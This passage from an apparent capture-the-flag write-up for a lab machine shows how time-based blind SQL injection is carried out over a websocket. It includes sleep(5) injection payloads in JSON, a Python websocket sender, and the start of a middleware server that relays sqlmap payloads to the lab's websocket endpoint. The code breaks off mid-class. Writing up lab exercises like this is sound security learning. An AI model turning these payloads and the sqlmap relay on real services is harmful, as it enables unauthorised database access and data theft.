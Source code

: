 ```python
                    message = payload.strip()
                    message = '{"id":' + f'"{message}"' + "}"
                    print(message)
                    
                    if message.lower() == 'exit':
                        break
                    
                    await websocket.send(message)
                    print("Message sent.")
                    
                    response = await websocket.recv()
                    print("Received message:", response)
    
    print("WebSocket connection closed.")

asyncio.run(connect_websocket())
```

Here is the result

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/b0d372c6-d320-48bd-9f64-e814c2098f2d" load="lazy"></img>


As you can see with the input `{"id":"sleep(5)"#}` we get the desired delay of 5 second and same for next input or `{"id":"1 or sleep(5)#"}`.

Now that we know it, we can try to use sqlmap to make it extract all the informations, the only problem is that we can’t simply insert the `URL` as a `POST` request, so we have two ways that we can follow.

We can either use only Sqlmap, or use this code provided by a user on [github](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

MIddleWare Server

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
```